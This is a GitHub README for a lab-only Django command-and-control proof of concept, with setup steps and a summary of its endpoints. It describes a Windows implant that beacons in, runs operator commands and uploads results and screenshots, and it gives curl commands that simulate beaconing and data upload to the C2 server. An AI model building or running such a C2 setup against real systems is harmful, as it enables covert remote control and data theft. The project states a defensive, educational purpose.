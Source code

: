 # django-c2-poc

**Educational / Lab-only C2 proof-of-concept.**  
This repository contains a minimal Django-based Command-and-Control (C2) server and a complementary native Windows PoC client (C) used for lab testing and detection exercises.

> ⚠️ **IMPORTANT — Safety & Ethics**  
> This project is for **educational and defensive** use only. Do **not** run this code against systems you do not own or have explicit written permission to test. 

---

## Repo layout

.
├─ c2/ 
│ ├─ admin.py
│ ├─ apps.py
│ ├─ init.py
│ ├─ migrations/
│ ├─ models.py
│ ├─ tests.py
│ ├─ urls.py
│ └─ views.py
└─ poc/ 
├─ main.c
└─ capture.c


---

## What this repo demonstrates

- A tiny Django C2 server that:
  - registers implants via `GET /c2/beacon/?id=<id>`
  - allows operator tasking via Django Admin (`Task` objects)
  - receives results via `POST /c2/upload/` (base64 text or multipart screenshot)
- A complementary native Windows PoC (in `poc/`) that demonstrates the client side flow in a lab: beacon, parse simple plaintext commands, run commands, capture screenshots, upload results.

This is intentionally minimal - the goal is to illustrate the C2 lifecycle and defensive detection signals, not to produce a production tool.

---

## Quick start — run the Django server locally (lab only)

1. Create a virtualenv and install dependencies (Python 3.10+ recommended):

```bash
python -m venv .venv
source .venv/bin/activate    # macOS / Linux
# .venv\Scripts\activate     # Windows PowerShell

pip install Django
```

2. Make sure your c2/ app is in a Django project or create a minimal project and include it. Example quick-start project:
```bash
django-admin startproject dc2proj
cd dc2proj
# Move the `c2/` folder into the project root, then:
# add "c2" to INSTALLED_APPS in dc2proj/settings.py
# and add "path('c2/', include('c2.urls'))," to urlpatterns and "from django.urls import include,path" in dc2proj/urls.py
python manage.py migrate
python manage.py createsuperuser   # create admin user for operator UI
python manage.py runserver 127.0.0.1:8000
```

3. Open Django admin at: http://127.0.0.1:8000/admin/

---
## Endpoints & behavior (summary)

- GET /c2/beacon/?id=<implant_id>
    - Implant checks in. Server creates/updates Implant and returns the next pending Task.command (plaintext) or "none".
- POST /c2/upload/
    - Implant posts results either as:
        - form field result (base64 text)
        - file field screenshot (multipart file)
    - Server marks the task completed and saves results.

---
### Quick test with curl

Simulate beacon:
```
curl "http://127.0.0.1:8000/c2/beacon/?id=implant001"
# returns plaintext command or "none"
```
Simulate upload (text result):
```
RESULT=$(echo -n "hello implant" | base64)
curl -X POST -d "id=implant001" -d "result=${RESULT}" http://127.0.0.1:8000/c2/upload/
```
Simulate upload (file):
```
curl -X POST -F "id=implant001" -F "screenshot=@/path/to/test.bmp" http://127.0.0.1:8000/c2/upload/
```

---
## Limitations
- Plain HTTP and plaintext commands - no encryption / signing (lab-only).
- Very simple queue: server returns only the first incomplete task for an implant.
- No rate-limiting, no per-implant tokens, no quotas for uploads.
- Minimal validation and error handling.
- Django admin is an operator convenience - not a production operator console for scale.



